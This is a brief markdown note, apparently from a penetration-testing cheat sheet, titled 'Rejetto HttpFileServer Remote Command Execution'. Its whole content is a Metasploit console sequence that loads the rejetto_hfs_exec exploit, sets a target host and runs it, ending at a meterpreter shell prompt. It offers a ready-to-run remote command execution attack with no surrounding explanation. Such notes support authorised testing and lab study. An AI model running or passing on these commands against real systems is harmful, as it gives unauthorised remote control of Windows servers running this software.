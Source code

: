 # Rejetto
- Rejetto HttpFileServer Remote Command Execution
```
msfconsole

use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <ip>
exploit

meterpreter >
```
